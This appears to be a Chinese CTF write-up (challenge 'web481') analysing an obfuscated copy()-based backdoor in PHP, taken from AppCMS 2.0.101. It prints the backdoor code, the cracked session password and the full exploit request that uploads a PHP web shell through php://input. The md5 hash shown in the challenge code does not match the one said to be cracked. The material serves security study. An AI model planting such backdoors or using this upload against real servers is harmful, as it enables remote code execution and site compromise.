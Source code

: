 ## web481

源码 index.php

```php
<?php

error_reporting(0);

if(md5($_GET['session'])=='3e858ccd79287cfe8509f15a71b4c45d'){
$configs="c"."o"."p"."y";
$configs(trim($_GET['url']),$_GET['cms']);}

?>
nothing here
```

PHP trim() 函数


移除字符串两侧的字符（"Hello" 中的 "He" 以及 "World" 中的 "d!"）：

```php
<?php
$str = "Hello World!";
echo $str . "<br>";
echo trim($str,"Hed!");
?>
```

[AppCMS 2.0.101 后门分析 | Chybeta](https://chybeta.github.io/2017/12/17/AppCMS-2-0-101-后门分析/)



经过解密，`9c224bc6b59179729b15e1dddcbb5c82`为字符串`kejishidai`的md5值。

由代码知，这里存在一个copy函数构成的后门。

在第12行，实际执行的即为:

```
copy(trim($_GET[url]),$_GET[cms]);
```

将参数url设置为`php://input`，参数cms设置为shell的文件名，然后POST传入webshell。如下：

```
http://127.0.0.1:2500/appcms/appcms_2.0.101/templates/m/content_list.php?session=kejishidai&url=php://input&cms=temp.php

POST:
<?php phpinfo();?>
```

接着访问：

```
http://127.0.0.1:2500/appcms/appcms_2.0.101/templates/m/temp.php
```
